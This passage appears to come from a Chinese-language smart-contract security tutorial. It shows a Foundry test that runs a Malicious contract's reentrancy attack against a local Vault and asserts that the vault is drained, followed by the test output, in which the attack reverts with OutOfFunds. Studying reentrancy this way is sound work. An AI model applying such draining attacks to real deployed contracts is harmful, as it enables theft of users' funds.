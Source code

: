 **重入攻击测试：test/Reentrancy.t.sol**:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Vault.sol";
import "../src/Malicious.sol";

contract ReentrancyTest is Test {
    Vault public vault;
    Malicious public attacker;

    function setUp() public {
        vault = new Vault();
        attacker = new Malicious(address(vault));

        // 先给 Vault 存 1 ether
        vm.deal(address(this), 2 ether);
        vault.deposit{value: 1 ether}();

        // 给 attacker 合约 1 ether
        vm.deal(address(attacker), 1 ether);
    }

    function testAttack() public {
        vm.startPrank(address(attacker));
        attacker.attack{value: 1 ether}();
        vm.stopPrank();

        assertEq(address(vault).balance, 0, "Vault should be drained");
        assertGt(address(attacker).balance, 1 ether, "Attacker profit expected");
    }
}
```  

执行结果：  

```bash
$ forge test --match-path test/Reentrancy.t.sol -vvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Reentrancy.t.sol:ReentrancyTest
[FAIL: Transfer failed] testAttack() (gas: 97251)
Traces:
  [97251] ReentrancyTest::testAttack()
    ├─ [0] VM::startPrank(Malicious: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   └─ ← [Return]
    ├─ [82170] Malicious::attack{value: 1000000000000000000}()
    │   ├─ [22537] Vault::deposit{value: 1000000000000000000}()
    │   │   └─ ← [Stop]
    │   ├─ [47366] Vault::withdraw()
    │   │   ├─ [39527] Malicious::receive{value: 1000000000000000000}()
    │   │   │   ├─ [16606] Vault::withdraw()
    │   │   │   │   ├─ [8767] Malicious::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [7746] Vault::withdraw()
    │   │   │   │   │   │   ├─ [0] Malicious::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   └─ ← [OutOfFunds] EvmError: OutOfFunds
    │   │   │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   │   └─ ← [Revert] Transfer failed
    │   │   │   └─ ← [Revert] Transfer failed
    │   │   └─ ← [Revert] Transfer failed
```